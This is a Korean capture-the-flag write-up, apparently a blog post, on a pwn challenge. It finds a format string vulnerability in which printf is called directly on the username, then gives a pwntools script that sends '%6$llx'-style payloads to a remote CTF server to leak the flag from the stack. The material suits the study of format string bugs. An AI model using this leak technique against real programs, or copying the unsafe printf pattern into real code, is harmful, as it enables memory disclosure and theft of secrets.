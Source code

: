 PIE가 활성화되어 있어서 오버플로우가 발생해도 리턴 주소를 덮어쓰거나 할 수는 없을 것 같았다  
<br>

---

```
else {
    printf("Incorrect password for user ");
    printf(username);
    printf("\n");
  }
```

그래서 처음엔 `strcmp`에 뭐가 있나 생각하고 찾아보다가 아닌 것 같아서 코드 다시 읽어보는데 `printf`에서 `username`을 그대로 쓰고 있는 걸 찾았다

FSB를 이용해서 풀면 될 것 같다  
<br>

---

![Image](https://blog.kakaocdn.net/dn/uHaPS/btsMbZ18Tnp/qEB2zltUNoez8tUjpk7svK/img.png)
![Image](https://blog.kakaocdn.net/dn/bcjvrs/btsMcZmJiv2/THMZzIk7ruTdk12qkMKJF1/img.png)

`password2`가 [rbp-0xa0]에 저장되고 `password2`와 비교하는 `flag`는 [rbp-0xd0] 즉 rsp 위치에 저장되는 걸 확인해볼 수 있다

`printf` 포맷 스트링에서 인자들은 rsi → rdx → rcx → r8 → r9 → 스택 순서대로 값을 받아온다

rsp에 위치한 `flag`를 받아오려면 6번째 인자부터 읽어오면 될 것 같다  
<br>

---

```python
from pwn import *

e = process('./chall', env = {'LD\_PRELOAD' : './libc.so.6'})
p = remote('chall.lac.tf', 31142)

# p.sendlineafter(b'username: ', b'kaiphait')
# p.sendlineafter(b'password1: ', b'correct horse battery staple')
# p.sendlineafter(b'password2: ', b'lactf{')

payload = b'%6$llx %7$llx %8$llx %9$llx %10$llx'

p.sendlineafter(b'username: ', payload)
p.sendlineafter(b'password1: ', b'AAAA')
p.sendlineafter(b'password2: ', b'BBBB')

p.interactive()
```

![Image](https://blog.kakaocdn.net/dn/qw8nB/btsMbJrKt89/c2Hvoka5H7n7bNazvXGcTK/img.png)

스택에 저장된 헥스를 읽어올 수 있다  
<br>

---